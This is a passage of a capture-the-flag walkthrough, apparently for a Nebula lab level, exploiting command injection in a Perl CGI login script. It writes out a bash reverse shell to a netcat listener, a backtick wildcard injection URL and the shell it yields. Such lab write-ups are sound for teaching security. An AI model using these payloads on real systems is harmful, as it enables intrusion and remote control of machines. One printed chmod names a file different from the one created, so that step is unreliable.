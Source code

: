 ```perl
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
    print("Your login was accepted<br/>");
  } else {
    print("Your login failed<br/>");
  }
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```

So quickly looking at the script we know that we need to pass `username` and `password` in as URL parameters. It then does some uppercase conversion of the username, strips the whitespace and greps for the username in a file called `userdb.txt`. Taking a look at this file we notice it's empty, so we need a different exploit. The obvious place here is the `egrep` call as it accepts our username. But we need to do some twiddling in order to get it working with the uppercase and whitespace strip.

One idea is to use bash's feature that allows us to run a command with a wildcard in the path. For example you can run `/bin/ls` with `/*/ls` instead. This gets us around the uppercase limitation as we can create an uppercase command at a path we can write to. I've chosen `/tmp` as my target. I'm going to create a reverse shell to a listening port. First off I login to level16 again (or somewhere else on the network) and run

```
level16@nebula:~$ nc -l 1337
```

To create a netcat listener on port _1337_

Next I construct the payload for the script

```
level16@nebula:/home/flag16$ cat /tmp/RSHELL
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.101/1337 0>&1
level16@nebula:/home/flag16$ chmod +x /tmp/SHELL
```

Note the uppercase filename, this is important as our username gets uppercased. The command in the script is a standard bash reverse shell. Now we pass the wildcard script path to the Perl script with backticks so it gets evaluated.

```
https://192.168.56.101:1616/index.cgi?username=%60/*/RSHELL%60&password=test2
```

Back in the shell where we launched the netcat listener we do the following (the `whoami` is just to confirm I am the right user)

```
level16@nebula:~$ nc -l 1337
bash: no job control in this shell
flag16@nebula:/home/flag16$ getflag
getflag
You have successfully executed getflag on a target account
flag16@nebula:/home/flag16$ whoami
whoami
flag16
```
